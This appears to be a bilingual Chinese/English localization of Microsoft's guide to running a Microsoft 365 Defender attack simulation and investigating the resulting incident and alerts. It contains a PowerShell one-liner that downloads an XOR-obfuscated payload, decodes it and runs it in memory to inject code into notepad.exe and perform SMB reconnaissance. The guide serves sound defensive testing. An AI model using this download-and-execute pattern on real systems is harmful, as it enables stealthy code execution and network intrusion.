

# <a name="run-your-microsoft-365-defender-attack-simulations"></a><span data-ttu-id="1af7f-104">執行 Microsoft 365 Defender 攻擊模擬</span><span class="sxs-lookup"><span data-stu-id="1af7f-104">Run your Microsoft 365 Defender attack simulations</span></span>

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]


|<span data-ttu-id="1af7f-105">[](m365d-pilot-plan.md)</span><span class="sxs-lookup"><span data-stu-id="1af7f-105">[](m365d-pilot-plan.md)</span></span><br/>[<span data-ttu-id="1af7f-106">規劃</span><span class="sxs-lookup"><span data-stu-id="1af7f-106">Planning</span></span>](m365d-pilot-plan.md)|<span data-ttu-id="1af7f-107">[](prepare-m365d-eval.md)</span><span class="sxs-lookup"><span data-stu-id="1af7f-107">[](prepare-m365d-eval.md)</span></span><br/>[<span data-ttu-id="1af7f-108">製備</span><span class="sxs-lookup"><span data-stu-id="1af7f-108">Preparation</span></span>](prepare-m365d-eval.md)|<br/><span data-ttu-id="1af7f-110">類比攻擊</span><span class="sxs-lookup"><span data-stu-id="1af7f-110">Simulate attack</span></span>|<span data-ttu-id="1af7f-111">[](m365d-pilot-close.md)</span><span class="sxs-lookup"><span data-stu-id="1af7f-111">[](m365d-pilot-close.md)</span></span><br/>[<span data-ttu-id="1af7f-112">結束和摘要</span><span class="sxs-lookup"><span data-stu-id="1af7f-112">Close and summarize</span></span>](m365d-pilot-close.md)|
|--|--|--|--|
|||<span data-ttu-id="1af7f-113">*您在這裡！*</span><span class="sxs-lookup"><span data-stu-id="1af7f-113">*You are here!*</span></span>||

<span data-ttu-id="1af7f-114">您目前是在攻擊模擬階段。</span><span class="sxs-lookup"><span data-stu-id="1af7f-114">You're currently in the attack simulation phase.</span></span>

<span data-ttu-id="1af7f-115">準備好試驗環境之後，請嘗試測試 Microsoft 365 Defender 事件管理和自動調查和修正功能。</span><span class="sxs-lookup"><span data-stu-id="1af7f-115">After preparing your pilot environment, it's time to test the Microsoft 365 Defender incident management and automated investigation and remediation capabilities.</span></span> <span data-ttu-id="1af7f-116">我們將協助您模擬複雜的攻擊，利用高級技術從偵測中隱藏。</span><span class="sxs-lookup"><span data-stu-id="1af7f-116">We'll help you to simulate a sophisticated attack that leverages advanced techniques to hide from detection.</span></span> <span data-ttu-id="1af7f-117">攻擊會在網域控制站上列舉已開啟的伺服器消息區塊 (SMB) 會話，並檢索使用者裝置的最近 IP 位址。</span><span class="sxs-lookup"><span data-stu-id="1af7f-117">The attack enumerates opened Server Message Block (SMB) sessions on domain controllers and retrieves recent IP addresses of users' devices.</span></span> <span data-ttu-id="1af7f-118">這種攻擊類別通常不會包含放在受害者裝置上的檔案，而只是在記憶體中。</span><span class="sxs-lookup"><span data-stu-id="1af7f-118">This category of attacks usually doesn't include files dropped on the victim's device—they occur solely in memory.</span></span> <span data-ttu-id="1af7f-119">他們會使用現有的系統和系統管理工具，並將其程式碼插入系統進程，以隱藏其執行，這類行為可讓他們避開偵測，並在裝置上持續運作。</span><span class="sxs-lookup"><span data-stu-id="1af7f-119">They "live off the land" by using existing system and administrative tools and inject their code into system processes to hide their execution, Such behavior allows them to evade detection and persist on the device.</span></span>

<span data-ttu-id="1af7f-120">在此模擬中，我們的範例案例會從 PowerShell 腳本開始。</span><span class="sxs-lookup"><span data-stu-id="1af7f-120">In this simulation, our sample scenario starts with a PowerShell script.</span></span> <span data-ttu-id="1af7f-121">使用者可能會欺騙執行腳本。</span><span class="sxs-lookup"><span data-stu-id="1af7f-121">A user might be tricked into running a script.</span></span> <span data-ttu-id="1af7f-122">或者，腳本可能從先前感染的裝置遠端連線至另一部電腦，企圖在網路中移動橫向。</span><span class="sxs-lookup"><span data-stu-id="1af7f-122">Or the script might run from a remote connection to another computer from a previously infected device—the attacker attempting to move laterally in the network.</span></span> <span data-ttu-id="1af7f-123">偵測到這些腳本可能很困難，因為系統管理員也經常會以遠端方式執行腳本，以執行各種管理活動。</span><span class="sxs-lookup"><span data-stu-id="1af7f-123">Detection of these scripts can be difficult because administrators also often run scripts remotely to carry out various administrative activities.</span></span>


<span data-ttu-id="1af7f-125">在模擬過程中，攻擊會將程式碼插入看似合法的程式。</span><span class="sxs-lookup"><span data-stu-id="1af7f-125">During the simulation, the attack injects shellcode into a seemingly innocent process.</span></span> <span data-ttu-id="1af7f-126">此案例需要使用 notepad.exe。</span><span class="sxs-lookup"><span data-stu-id="1af7f-126">The scenario requires the use of notepad.exe.</span></span> <span data-ttu-id="1af7f-127">我們為模擬選擇此程式，但攻擊者很可能是以長期執行的系統進程為目標，例如 svchost.exe。</span><span class="sxs-lookup"><span data-stu-id="1af7f-127">We chose this process for the simulation, but attackers would more likely target a long-running system process, such as svchost.exe.</span></span> <span data-ttu-id="1af7f-128">然後，命令介面會繼續聯繫攻擊者的命令和控制項 (C2) server，以接收如何繼續的指示。</span><span class="sxs-lookup"><span data-stu-id="1af7f-128">The shellcode then goes on to contact the attacker's command-and-control (C2) server to receive instructions on how to proceed.</span></span> <span data-ttu-id="1af7f-129">腳本會嘗試對網域控制站執行偵測查詢 (DC) 。</span><span class="sxs-lookup"><span data-stu-id="1af7f-129">The script attempts executing reconnaissance queries against the domain controller (DC).</span></span> <span data-ttu-id="1af7f-130">偵測允許攻擊者取得最近使用者登入資訊的相關資訊。</span><span class="sxs-lookup"><span data-stu-id="1af7f-130">Reconnaissance allows an attacker to get information about recent user login information.</span></span> <span data-ttu-id="1af7f-131">一旦攻擊者取得這項資訊，他們就可以在網路中移動橫向，以取得特定的機密帳戶。</span><span class="sxs-lookup"><span data-stu-id="1af7f-131">Once attackers have this information, they can move laterally in the network to get to a specific sensitive account</span></span>

> [!IMPORTANT]
> <span data-ttu-id="1af7f-132">為了獲得最佳結果，請盡可能遵循攻擊模擬指示。</span><span class="sxs-lookup"><span data-stu-id="1af7f-132">For optimum results, follow the attack simulation instructions as closely as possible.</span></span>

## <a name="simulation-environment-requirements"></a><span data-ttu-id="1af7f-133">類比環境需求</span><span class="sxs-lookup"><span data-stu-id="1af7f-133">Simulation environment requirements</span></span>

<span data-ttu-id="1af7f-134">由於您已在準備階段中設定試驗環境，因此請確定此案例有兩個裝置：測試裝置和網域控制站。</span><span class="sxs-lookup"><span data-stu-id="1af7f-134">Since you have already configured your pilot environment during the preparation phase, ensure that you have two devices for this scenario: a test device and a domain controller.</span></span>

1. <span data-ttu-id="1af7f-135">請確認您的租使用者已 [啟用 Microsoft 365 Defender](m365d-enable.md#confirm-that-the-service-is-on)。</span><span class="sxs-lookup"><span data-stu-id="1af7f-135">Verify your tenant has [enabled Microsoft 365 Defender](m365d-enable.md#confirm-that-the-service-is-on).</span></span>

2. <span data-ttu-id="1af7f-136">驗證測試網域控制站設定：</span><span class="sxs-lookup"><span data-stu-id="1af7f-136">Verify your test domain controller configuration:</span></span>

   - <span data-ttu-id="1af7f-137">使用 Windows Server 2008 R2 或更新版本的裝置執行。</span><span class="sxs-lookup"><span data-stu-id="1af7f-137">Device runs with Windows Server 2008 R2 or a later version.</span></span>
   - <span data-ttu-id="1af7f-138">[Microsoft Defender 身分識別](/azure/security-center/security-center-wdatp)的測試網域控制站，並啟用[遠端系統管理](/windows-server/administration/server-manager/configure-remote-management-in-server-manager)。</span><span class="sxs-lookup"><span data-stu-id="1af7f-138">The test domain controller to [Microsoft Defender for Identity](/azure/security-center/security-center-wdatp) and enable [remote management](/windows-server/administration/server-manager/configure-remote-management-in-server-manager).</span></span>
   - <span data-ttu-id="1af7f-139">確認 [Microsoft Defender 的身分識別和 Microsoft Cloud App Security integration](/cloud-app-security/mdi-integration) 已啟用。</span><span class="sxs-lookup"><span data-stu-id="1af7f-139">Verify that [Microsoft Defender for Identity and Microsoft Cloud App Security integration](/cloud-app-security/mdi-integration) have been enabled.</span></span>
   - <span data-ttu-id="1af7f-140">在您的網域上建立測試使用者–不需要系統管理員許可權。</span><span class="sxs-lookup"><span data-stu-id="1af7f-140">A test user is created on your domain – no admin permissions needed.</span></span>

3. <span data-ttu-id="1af7f-141">驗證 test device configuration：</span><span class="sxs-lookup"><span data-stu-id="1af7f-141">Verify test device configuration:</span></span>

   1. <span data-ttu-id="1af7f-142">使用 Windows 10 版本1903或更新版本的裝置執行。</span><span class="sxs-lookup"><span data-stu-id="1af7f-142">Device runs with Windows 10 version 1903 or a later version.</span></span>

   1. <span data-ttu-id="1af7f-143">測試裝置已加入測試網域。</span><span class="sxs-lookup"><span data-stu-id="1af7f-143">Test device is joined to the test domain.</span></span>

   1. <span data-ttu-id="1af7f-144">[開啟 Windows Defender 防毒軟體](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features)。</span><span class="sxs-lookup"><span data-stu-id="1af7f-144">[Turn on Windows Defender Antivirus](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span></span> <span data-ttu-id="1af7f-145">如果您在啟用 Windows Defender 防病毒時遇到問題，請參閱此 [疑難排解主題](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)。</span><span class="sxs-lookup"><span data-stu-id="1af7f-145">If you are having trouble enabling Windows Defender Antivirus, see this [troubleshooting topic](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span></span>

   1. <span data-ttu-id="1af7f-146">確認測試裝置 [架至 Microsoft Defender For Endpoint) ](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)。</span><span class="sxs-lookup"><span data-stu-id="1af7f-146">Verify that the test device is [onboarded to Microsoft Defender for Endpoint)](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

<span data-ttu-id="1af7f-147">如果您使用現有租使用者並實施裝置群組，請為測試裝置建立專用的裝置群組，並將它推入設定 UX 的最上層。</span><span class="sxs-lookup"><span data-stu-id="1af7f-147">If you use an existing tenant and implement device groups, create a dedicated device group for the test device and push it to top level in configuration UX.</span></span>

## <a name="run-the-attack-scenario-simulation"></a><span data-ttu-id="1af7f-148">執行攻擊案例模擬</span><span class="sxs-lookup"><span data-stu-id="1af7f-148">Run the attack scenario simulation</span></span>

<span data-ttu-id="1af7f-149">若要執行攻擊案例模擬：</span><span class="sxs-lookup"><span data-stu-id="1af7f-149">To run the attack scenario simulation:</span></span>

1. <span data-ttu-id="1af7f-150">使用測試使用者帳戶登入測試裝置。</span><span class="sxs-lookup"><span data-stu-id="1af7f-150">Log in to the test device with the test user account.</span></span>

2. <span data-ttu-id="1af7f-151">在測試裝置上開啟 [Windows PowerShell] 視窗。</span><span class="sxs-lookup"><span data-stu-id="1af7f-151">Open a Windows PowerShell window on the test device.</span></span>

3. <span data-ttu-id="1af7f-152">複製下列類比腳本：</span><span class="sxs-lookup"><span data-stu-id="1af7f-152">Copy the following simulation script:</span></span>

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > <span data-ttu-id="1af7f-153">如果您在網頁瀏覽器上開啟此檔，您可能會遇到複製完整文字但未遺失某些字元或引入額外分行符號的問題。</span><span class="sxs-lookup"><span data-stu-id="1af7f-153">If you open this document on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks.</span></span> <span data-ttu-id="1af7f-154">下載這份檔，並在 Adobe Reader 上開啟它。</span><span class="sxs-lookup"><span data-stu-id="1af7f-154">Download this document and open it on Adobe Reader.</span></span>

4. <span data-ttu-id="1af7f-155">出現提示時，請貼上並執行複製的腳本。</span><span class="sxs-lookup"><span data-stu-id="1af7f-155">At the prompt, paste and run the copied script.</span></span>

> [!NOTE]
> <span data-ttu-id="1af7f-156">如果您正在使用遠端桌面通訊協定 (RDP) 執行 PowerShell，請使用 RDP 用戶端中的 [輸入剪貼簿文字] 命令，因為 **CTRL + V** 熱鍵或右擊-paste 方法可能無法運作。</span><span class="sxs-lookup"><span data-stu-id="1af7f-156">If you're running PowerShell using remote desktop protocol (RDP), use the Type Clipboard Text command in the RDP client because the **CTRL-V** hotkey or right-click-paste method might not work.</span></span> <span data-ttu-id="1af7f-157">最新版本的 PowerShell 有時候也不會接受該方法，您可能需要先在記憶體中複製到記事本，然後在虛擬機器中複製它，然後將它貼到 PowerShell 中。</span><span class="sxs-lookup"><span data-stu-id="1af7f-157">Recent versions of PowerShell sometimes will also not accept that method, you might have to copy to Notepad in memory first, copy it in the virtual machine, and then paste it into PowerShell.</span></span>

<span data-ttu-id="1af7f-158">幾秒後， <i>notepad.exe</i> 將會開啟。</span><span class="sxs-lookup"><span data-stu-id="1af7f-158">A few seconds later, <i>notepad.exe</i> will open.</span></span> <span data-ttu-id="1af7f-159">模擬的攻擊程式碼會注入 notepad.exe。</span><span class="sxs-lookup"><span data-stu-id="1af7f-159">A simulated attack code will be injected into notepad.exe.</span></span> <span data-ttu-id="1af7f-160">將自動產生的記事本實例保持開啟，以體驗整個案例。</span><span class="sxs-lookup"><span data-stu-id="1af7f-160">Keep the automatically generated Notepad instance open to experience the full scenario.</span></span>

<span data-ttu-id="1af7f-161">模擬的攻擊程式碼會嘗試 (模擬 C2 server) 中的外部 IP 位址進行通訊，然後透過 SMB 嘗試對網域控制站偵測偵測。</span><span class="sxs-lookup"><span data-stu-id="1af7f-161">The simulated attack code will attempt to communicate to an external IP address (simulating the C2 server) and then attempt reconnaissance against the domain controller through SMB.</span></span>

<span data-ttu-id="1af7f-162">當此腳本完成時，您會看到 PowerShell 主控台上顯示一則訊息。</span><span class="sxs-lookup"><span data-stu-id="1af7f-162">You'll see a message displayed on the PowerShell console when this script completes.</span></span>

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

<span data-ttu-id="1af7f-163">若要查看自動事件和回應功能的動作，請保持 notepad.exe 處理常式開啟。</span><span class="sxs-lookup"><span data-stu-id="1af7f-163">To see the Automated Incident and Response feature in action, keep the notepad.exe process open.</span></span> <span data-ttu-id="1af7f-164">您會看到自動化的事件和回應停止 [記事本] 處理常式。</span><span class="sxs-lookup"><span data-stu-id="1af7f-164">You'll see Automated Incident and Response stop the Notepad process.</span></span>

## <a name="investigate-an-incident"></a><span data-ttu-id="1af7f-165">調查事件</span><span class="sxs-lookup"><span data-stu-id="1af7f-165">Investigate an incident</span></span>

> [!NOTE]
> <span data-ttu-id="1af7f-166">在您完成這項類比之前，請觀看下列影片，查看「事件管理」如何説明您將相關的警示放在一起，以供調查過程使用，您可以在入口網站中找到該程式，以及它如何協助您進行安全性作業：</span><span class="sxs-lookup"><span data-stu-id="1af7f-166">Before we walk you through this simulation, watch the following video to see how incident management helps you piece the related alerts together as part of the investigation process, where you can find it in the portal, and how it can help you in your security operations:</span></span>

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

<span data-ttu-id="1af7f-167">切換至 SOC 分析員的觀點，您現在可以開始在 Microsoft 365 的安全性中心入口網站上調查攻擊。</span><span class="sxs-lookup"><span data-stu-id="1af7f-167">Switching to the SOC analyst point of view, you can now start to investigate the attack in the Microsoft 365 Security Center portal.</span></span>

1. <span data-ttu-id="1af7f-168">從任何裝置開啟 [Microsoft 365 安全性中心入口網站](https://security.microsoft.com/incidents) 事件佇列。</span><span class="sxs-lookup"><span data-stu-id="1af7f-168">Open the [Microsoft 365 Security Center portal](https://security.microsoft.com/incidents) incident queue from any device.</span></span>

2. <span data-ttu-id="1af7f-169">從功能表流覽至 [ **事件** ]。</span><span class="sxs-lookup"><span data-stu-id="1af7f-169">Navigate to **Incidents** from the menu.</span></span>

    

3. <span data-ttu-id="1af7f-171">模擬攻擊的新事件會出現在事件佇列中。</span><span class="sxs-lookup"><span data-stu-id="1af7f-171">The new incident for the simulated attack will appear in the incident queue.</span></span>

    

### <a name="investigate-the-attack-as-a-single-incident"></a><span data-ttu-id="1af7f-173">以單一事件調查攻擊</span><span class="sxs-lookup"><span data-stu-id="1af7f-173">Investigate the attack as a single incident</span></span>

<span data-ttu-id="1af7f-174">Microsoft 365 Defender 將不同產品的所有相關警示和調查，結合到一個事件實體中，以進行分析和匯總。</span><span class="sxs-lookup"><span data-stu-id="1af7f-174">Microsoft 365 Defender correlates analytics and aggregates all related alerts and investigations from different products into one incident entity.</span></span> <span data-ttu-id="1af7f-175">如此一來，Microsoft 365 Defender 會顯示更廣泛的攻擊案例，讓 SOC 分析員能夠瞭解並回應複雜的威脅。</span><span class="sxs-lookup"><span data-stu-id="1af7f-175">By doing so, Microsoft 365 Defender shows a broader attack story, allowing the SOC analyst to understand and respond to complex threats.</span></span>

<span data-ttu-id="1af7f-176">此模擬期間產生的警示會與相同的威脅產生關聯，因此會自動匯總為單一事件。</span><span class="sxs-lookup"><span data-stu-id="1af7f-176">The alerts generated during this simulation are associated with the same threat, and as a result, are automatically aggregated as a single incident.</span></span>

<span data-ttu-id="1af7f-177">若要查看此事件：</span><span class="sxs-lookup"><span data-stu-id="1af7f-177">To view the incident:</span></span>

1. <span data-ttu-id="1af7f-178">流覽至 [ **事件** ] 佇列。</span><span class="sxs-lookup"><span data-stu-id="1af7f-178">Navigate to the **Incidents** queue.</span></span>

   

2. <span data-ttu-id="1af7f-180">按一下事件名稱左側的圓形以選取最新的專案。</span><span class="sxs-lookup"><span data-stu-id="1af7f-180">Select the newest item by clicking on the circle located left of the incident name.</span></span> <span data-ttu-id="1af7f-181">側邊面板會顯示有關該事件的其他資訊，包括所有相關的警示。</span><span class="sxs-lookup"><span data-stu-id="1af7f-181">A side panel displays additional information about the incident, including all the related alerts.</span></span> <span data-ttu-id="1af7f-182">每個事件都有唯一的名稱，它會根據其包含的警示屬性來描述它。</span><span class="sxs-lookup"><span data-stu-id="1af7f-182">Each incident has a unique name that describes it based on the attributes of the alerts it includes.</span></span>

   

   <span data-ttu-id="1af7f-184">儀表板中顯示的警示可根據服務資源進行篩選： Microsoft Defender for Identity、Microsoft Cloud App Security、Microsoft Defender for Endpoint、Microsoft 365 Defender 和 Microsoft Defender for Office 365。</span><span class="sxs-lookup"><span data-stu-id="1af7f-184">The alerts that show in the dashboard can be filtered based on service resources: Microsoft Defender for Identity, Microsoft Cloud App Security, Microsoft Defender for Endpoint, Microsoft 365 Defender, and Microsoft Defender for Office 365.</span></span>

3. <span data-ttu-id="1af7f-185">選取 [ **開啟事件] 頁面** ，以取得有關事件的詳細資訊。</span><span class="sxs-lookup"><span data-stu-id="1af7f-185">Select **Open incident page** to get more information about the incident.</span></span>

   <span data-ttu-id="1af7f-186">在 [ **事件** ] 頁面中，您可以看到與該事件相關的所有警示和資訊。</span><span class="sxs-lookup"><span data-stu-id="1af7f-186">In the **Incident** page, you can see all the alerts and information related to the incident.</span></span> <span data-ttu-id="1af7f-187">此資訊包含警示中所涉及的實體和資產、警示的偵測來源 (Microsoft Defender 身分識別、EDR) ，以及它們的連結在一起的原因。</span><span class="sxs-lookup"><span data-stu-id="1af7f-187">The information includes the entities and assets that are involved in the alert, the detection source of the alerts (Microsoft Defender for Identity, EDR), and the reason they were linked together.</span></span> <span data-ttu-id="1af7f-188">檢查事件警示清單會顯示攻擊的進展。</span><span class="sxs-lookup"><span data-stu-id="1af7f-188">Reviewing the incident alert list shows the progression of the attack.</span></span> <span data-ttu-id="1af7f-189">您可以從這個視圖，查看並調查個別提醒。</span><span class="sxs-lookup"><span data-stu-id="1af7f-189">From this view, you can see and investigate the individual alerts.</span></span>

   <span data-ttu-id="1af7f-190">您也可以按一下右側功能表中的 [ **管理事件** ]，以標記事件、將其指派給您並新增批註。</span><span class="sxs-lookup"><span data-stu-id="1af7f-190">You can also click **Manage incident** from the right-hand menu, to tag the incident, assign it to yourself, and add comments.</span></span>

   

   

### <a name="review-generated-alerts"></a><span data-ttu-id="1af7f-193">審閱產生的提醒</span><span class="sxs-lookup"><span data-stu-id="1af7f-193">Review generated alerts</span></span>

<span data-ttu-id="1af7f-194">讓我們看一下模擬攻擊期間產生的一些警示。</span><span class="sxs-lookup"><span data-stu-id="1af7f-194">Let's look at some of the alerts generated during the simulated attack.</span></span>

> [!NOTE]
> <span data-ttu-id="1af7f-195">我們只會逐步完成模擬攻擊期間產生的一些警示。</span><span class="sxs-lookup"><span data-stu-id="1af7f-195">We'll walk through only a few of the alerts generated during the simulated attack.</span></span> <span data-ttu-id="1af7f-196">視您測試裝置上所執行的 Windows 和 Microsoft 365 Defender 產品版本而定，您可能會看到更多以稍有不同順序顯示的警示。</span><span class="sxs-lookup"><span data-stu-id="1af7f-196">Depending on the version of Windows and the Microsoft 365 Defender products running on your test device, you might see more alerts that appear in a slightly different order.</span></span>


#### <a name="alert-suspicious-process-injection-observed-source-microsoft-defender-for-endpoint-edr"></a><span data-ttu-id="1af7f-198">警示：觀察到的可疑程式注入 (來源： Microsoft Defender for Endpoint EDR) </span><span class="sxs-lookup"><span data-stu-id="1af7f-198">Alert: Suspicious process injection observed (Source: Microsoft Defender for Endpoint EDR)</span></span>

<span data-ttu-id="1af7f-199">高級攻擊者使用複雜且 stealthy 的方法，保存在記憶體中，並從偵測工具隱藏。</span><span class="sxs-lookup"><span data-stu-id="1af7f-199">Advanced attackers use sophisticated and stealthy methods to persist in memory and hide from detection tools.</span></span> <span data-ttu-id="1af7f-200">其中一項常見的技術是在信任的系統進程中運作，而不是惡意的可執行檔，使偵測工具和安全性作業難以發現惡意的程式碼。</span><span class="sxs-lookup"><span data-stu-id="1af7f-200">One common technique is to operate from within a trusted system process rather than a malicious executable, making it hard for detection tools and security operations to spot the malicious code.</span></span>

<span data-ttu-id="1af7f-201">為了讓 SOC 分析員能夠捕捉這些高級攻擊，Microsoft Defender for Endpoint 中的深度記憶體感應器提供我們的雲端服務，具有對各種跨進程程式碼注入技術的空前深入瞭解。</span><span class="sxs-lookup"><span data-stu-id="1af7f-201">To allow the SOC analysts to catch these advanced attacks, deep memory sensors in Microsoft Defender for Endpoint provide our cloud service with unprecedented visibility into a variety of cross-process code injection techniques.</span></span> <span data-ttu-id="1af7f-202">下圖顯示如何在嘗試插入程式碼來 <i>notepad.exe</i>時，如何偵測端點和警示。</span><span class="sxs-lookup"><span data-stu-id="1af7f-202">The following figure shows how Defender for Endpoint detected and alerted on the attempt to inject code to <i>notepad.exe</i>.</span></span>


#### <a name="alert-unexpected-behavior-observed-by-a-process-run-with-no-command-line-arguments-source-microsoft-defender-for-endpoint-edr"></a><span data-ttu-id="1af7f-204">警示：以無命令列引數執行程式所觀察到的意外行為 (來源： Microsoft Defender for Endpoint EDR) </span><span class="sxs-lookup"><span data-stu-id="1af7f-204">Alert: Unexpected behavior observed by a process run with no command-line arguments (Source: Microsoft Defender for Endpoint EDR)</span></span>

<span data-ttu-id="1af7f-205">Microsoft Defender for Endpoint 偵測通常是以最常見的攻擊技術屬性為目標。</span><span class="sxs-lookup"><span data-stu-id="1af7f-205">Microsoft Defender for Endpoint detections often target the most common attribute of an attack technique.</span></span> <span data-ttu-id="1af7f-206">此方法可確保持續性並引發此列，以供攻擊者切換至更新的戰術。</span><span class="sxs-lookup"><span data-stu-id="1af7f-206">This method ensures durability and raises the bar for attackers to switch to newer tactics.</span></span>

<span data-ttu-id="1af7f-207">我們採用大規模的學習演算法，在組織和全球範圍內建立一般程式的正常行為，並在這些程式顯示反常行為時加以監視。</span><span class="sxs-lookup"><span data-stu-id="1af7f-207">We employ large-scale learning algorithms to establish the normal behavior of common processes within an organization and worldwide and watch for when these processes show anomalous behaviors.</span></span> <span data-ttu-id="1af7f-208">這些反常行為通常表示已引進無關的程式碼，並在其他受信任的程式中執行。</span><span class="sxs-lookup"><span data-stu-id="1af7f-208">These anomalous behaviors often indicate that extraneous code was introduced and are running in an otherwise trusted process.</span></span>

<span data-ttu-id="1af7f-209">在此案例中，處理 <i>notepad.exe</i> 會顯示反常的行為，包括與外部位置的通訊。</span><span class="sxs-lookup"><span data-stu-id="1af7f-209">For this scenario, the process <i>notepad.exe</i> is exhibiting abnormal behavior, involving communication with an external location.</span></span> <span data-ttu-id="1af7f-210">這項結果獨立于用於引入及執行惡意程式碼的特定方法。</span><span class="sxs-lookup"><span data-stu-id="1af7f-210">This outcome is independent of the specific method used to introduce and execute the malicious code.</span></span>

> [!NOTE]
> <span data-ttu-id="1af7f-211">因為此警示是以需要其他後端處理的機器學習模型為基礎，所以在入口網站中看到此警示之前可能需要一些時間。</span><span class="sxs-lookup"><span data-stu-id="1af7f-211">Because this alert is based on machine-learning models that require additional backend processing, it might take some time before you see this alert in the portal.</span></span>

<span data-ttu-id="1af7f-212">請注意，警示詳細資料包含外部 IP 位址（即您可以做為資料透視以展開調查的指標）。</span><span class="sxs-lookup"><span data-stu-id="1af7f-212">Notice that the alert details include the external IP address—an indicator that you can use as a pivot to expand investigation.</span></span>

<span data-ttu-id="1af7f-213">選取 [警示處理常式] 樹狀目錄中的 IP 位址，以查看 [IP 位址詳細資料] 頁面。</span><span class="sxs-lookup"><span data-stu-id="1af7f-213">Select the IP address in the alert process tree to view the IP address details page.</span></span>


<span data-ttu-id="1af7f-215">下圖顯示 [選取的 IP 位址詳細資料] 頁面 (按一下警示處理樹狀目錄樹) 中的 [IP 位址]。</span><span class="sxs-lookup"><span data-stu-id="1af7f-215">The following figure displays the selected IP Address details page (clicking on IP address in the Alert process tree).</span></span>
<span data-ttu-id="1af7f-216"></span><span class="sxs-lookup"><span data-stu-id="1af7f-216"></span></span>

#### <a name="alert-user-and-ip-address-reconnaissance-smb-source-microsoft-defender-for-identity"></a><span data-ttu-id="1af7f-217">警示：使用者和 IP 位址偵測 (SMB)  (來源： Microsoft Defender 身分識別) </span><span class="sxs-lookup"><span data-stu-id="1af7f-217">Alert: User and IP address reconnaissance (SMB) (Source: Microsoft Defender for Identity)</span></span>

<span data-ttu-id="1af7f-218">列舉使用伺服器訊息區 (SMB) 通訊協定，可讓攻擊者取得最近的使用者登入資訊，以協助他們透過網路移動，以存取特定的機密帳戶。</span><span class="sxs-lookup"><span data-stu-id="1af7f-218">Enumeration using Server Message Block (SMB) protocol enables attackers to get recent user logon information that helps them move laterally through the network to access a specific sensitive account.</span></span>

<span data-ttu-id="1af7f-219">在此偵測中，當 SMB 會話列舉對網域控制站執行時，就會觸發警示。</span><span class="sxs-lookup"><span data-stu-id="1af7f-219">In this detection, an alert is triggered when the SMB session enumeration runs against a domain controller.</span></span>


### <a name="review-the-device-timeline-microsoft-defender-for-endpoint"></a><span data-ttu-id="1af7f-221">複查裝置時程表 [Microsoft Defender for Endpoint]</span><span class="sxs-lookup"><span data-stu-id="1af7f-221">Review the device timeline [Microsoft Defender for Endpoint]</span></span>

<span data-ttu-id="1af7f-222">在探索此事件中的各種警示後，請移回先前所調查的 [事件] 頁面。</span><span class="sxs-lookup"><span data-stu-id="1af7f-222">After exploring the various alerts in this incident, navigate back to the incident page you investigated earlier.</span></span> <span data-ttu-id="1af7f-223">在 [事件] 頁面中，選取 [ **裝置** ] 索引標籤，以複查此事件中與 microsoft Defender for Endpoint 和 microsoft Defender 身分識別報告相關的裝置。</span><span class="sxs-lookup"><span data-stu-id="1af7f-223">Select the **Devices** tab in the incident page to review the devices involved in this incident as reported by Microsoft Defender for Endpoint and Microsoft Defender for Identity.</span></span>

<span data-ttu-id="1af7f-224">選取實施攻擊的裝置名稱，以開啟該特定裝置的實體頁面。</span><span class="sxs-lookup"><span data-stu-id="1af7f-224">Select the name of the device where the attack was conducted, to open the entity page for that specific device.</span></span> <span data-ttu-id="1af7f-225">在該頁面中，您可以看到觸發和相關事件的警示。</span><span class="sxs-lookup"><span data-stu-id="1af7f-225">In that page, you can see alerts that were triggered and related events.</span></span>

<span data-ttu-id="1af7f-226">選取 [ **時程表** ] 索引標籤以開啟裝置時程表，並以時間順序查看裝置上觀測到的所有事件和行為，並與所引發的警示交錯。</span><span class="sxs-lookup"><span data-stu-id="1af7f-226">Select the **Timeline** tab to open the device timeline and view all events and behaviors observed on the device in chronological order, interspersed with the alerts raised.</span></span>


<span data-ttu-id="1af7f-228">展開一些較為有趣的行為，可提供有用的詳細資料，例如處理樹。</span><span class="sxs-lookup"><span data-stu-id="1af7f-228">Expanding some of the more interesting behaviors provides useful details, such as process trees.</span></span>

<span data-ttu-id="1af7f-229">例如，向下滾動，直到發現出現警示事件 **可疑程式注入**。</span><span class="sxs-lookup"><span data-stu-id="1af7f-229">For example, scroll down until you find the alert event **Suspicious process injection observed**.</span></span> <span data-ttu-id="1af7f-230">選取 **插入的powershell.exe** ，以 notepad.exe 它底下的處理程式事件，在側邊窗格的 [ **事件實體** ] 圖表下，顯示此行為的完整處理樹狀結構。</span><span class="sxs-lookup"><span data-stu-id="1af7f-230">Select the **powershell.exe injected to notepad.exe process** event below it, to display the full process tree for this behavior under the **Event entities** graph on the side pane.</span></span> <span data-ttu-id="1af7f-231">如有必要，請使用搜尋列進行篩選。</span><span class="sxs-lookup"><span data-stu-id="1af7f-231">Use the search bar for filtering if necessary.</span></span>


